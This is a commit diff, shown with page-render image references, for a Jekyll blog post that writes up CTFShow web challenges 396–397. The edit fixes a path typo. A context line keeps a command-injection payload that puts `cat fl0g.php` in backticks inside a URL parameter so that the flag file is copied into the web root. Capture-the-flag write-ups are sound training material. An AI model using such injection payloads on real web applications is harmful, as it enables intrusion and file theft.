

Before and after one commit to LunaAsuka/LunaAsuka.github.io, a Jekyll site: the page built from _posts/2021-02-07-CTFShow-web入门396.md, in a window 1280 px wide and 900 px high, scrolled down 4304 px. Shown: the part 161-453 px from the top of the window. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

```diff
--- a/_posts/2021-02-07-CTFShow-web入门396.md
+++ b/_posts/2021-02-07-CTFShow-web入门396.md
@@ -86,7 +86,7 @@ if(isset($_GET['url'])){
 
 ## web397
 
-跟web396差不多，不同的是重定向到了//tmp文件夹，但是没有关系
+跟web396差不多，不同的是重定向到了/tmp文件夹，但是没有关系
 
 直接构造payload：?url=http://username:password@\`cat fl0g.php\`/../../../var/www/html/a.txt
 
```
